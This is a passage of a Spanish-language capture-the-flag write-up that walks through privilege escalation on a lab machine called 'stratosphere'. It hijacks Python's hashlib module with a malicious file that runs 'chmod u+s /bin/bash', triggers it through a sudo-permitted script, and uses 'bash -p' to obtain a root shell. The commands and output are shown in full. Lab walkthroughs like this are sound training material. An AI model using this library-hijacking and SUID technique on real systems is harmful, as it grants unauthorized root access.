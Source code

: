 ```bash
richard@stratosphere:~$ find / -name "*hashlib*" 2>/dev/null
/usr/lib/python3.5/__pycache__/hashlib.cpython-35.pyc
/usr/lib/python3.5/lib-dynload/_hashlib.cpython-35m-x86_64-linux-gnu.so
/usr/lib/python3.5/hashlib.py
/usr/lib/python2.7/lib-dynload/_hashlib.x86_64-linux-gnu.so
/usr/lib/python2.7/hashlib.py
/usr/lib/python2.7/hashlib.pyc
/usr/lib/python3.7/__pycache__/hashlib.cpython-37.pyc
/usr/lib/python3.7/lib-dynload/_hashlib.cpython-37m-x86_64-linux-gnu.so
/usr/lib/python3.7/hashlib.py
```

Una vez que hemos confirmado que el archivo se llama `hashlib.py` lo unico que tenemos que hacer es crearnos un archivo malicioso con ese nombre que contenga lo siguiente

```bash
import os

os.system("chmod u+s /bin/bash")
```

- Obtención de permisos `suid` para la bash

```bash
richard@stratosphere:~$ sudo -u root /usr/bin/python3 /home/richard/test.py
Solve: 5af003e100c80923ec04d65933d382cb
^CTraceback (most recent call last):
  File "/home/richard/test.py", line 38, in <module>
    question()
  File "/home/richard/test.py", line 6, in question
    q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
KeyboardInterrupt
```

```bash
richard@stratosphere:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

- Por ultimo hacemos lo siguiente para tener una bash con privilegios

```bash
richard@stratosphere:~$ bash -p
bash-5.0# whoami
root
```